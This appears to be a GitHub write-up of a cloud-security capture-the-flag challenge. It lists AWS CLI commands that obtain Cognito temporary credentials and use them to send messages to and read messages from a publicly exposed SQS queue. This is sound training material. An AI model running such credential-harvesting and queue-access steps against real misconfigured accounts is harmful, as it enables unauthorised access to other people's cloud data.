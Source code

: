 The Big IAM Challenge - Challenge 2
Problem Statement
The second challenge in The Big IAM Challenge involves an SQS (Simple Queue Service) queue with an IAM policy that allows public access to send and receive messages. The policy allows anyone to perform the `sqs:SendMessage` and `sqs:ReceiveMessage` actions on the `wiz-tbic-analytics-sqs-queue-ca7a1b2` queue.

Solution Commands

To solve this challenge, I used the AWS CLI to obtain temporary credentials from Amazon Cognito, and then used those credentials to send and receive messages from the SQS queue. Below are the steps and commands used:

1. Retrieve Identity ID from Amazon Cognito:
   The first command retrieves an identity ID from Amazon Cognito using the specified identity pool ID.

   
   aws cognito-identity get-id --identity-pool-id "us-east-1:c6f3eb2e-3cb5-404e-93bc-f0bdf7ad042e"
Retrieve Temporary AWS Credentials: The second command retrieves temporary AWS credentials for the specified identity ID. These credentials are used to authenticate subsequent AWS CLI commands.

aws cognito-identity get-credentials-for-identity --identity-id "us-east-1:9ea8f9af-f687-439b-951d-0e83653f6be7"
Verify Temporary Credentials: The third command verifies that the temporary credentials obtained from Amazon Cognito are valid by using sts get-caller-identity.


aws sts get-caller-identity --profile challenge2
Send a Message to the SQS Queue: The fourth command sends a message with the body "Hello, World" to the SQS queue.


aws sqs send-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 --message-body "Hello, World" --profile challenge2 --region us-east-1
Receive a Message from the SQS Queue: The fifth command retrieves a message from the SQS queue.


aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 --profile challenge2 --region us-east-1
Outcome
In response to the fifth command, I got a link to the HTML page.

Conclusion
This challenge demonstrates the process of obtaining temporary AWS credentials from Amazon Cognito and interacting with an SQS queue using the AWS CLI. The temporary credentials allow for sending and receiving messages from the queue as per the IAM policy.


Now you can add this directly to your GitHub repository, and it will reflect exactly how you've 
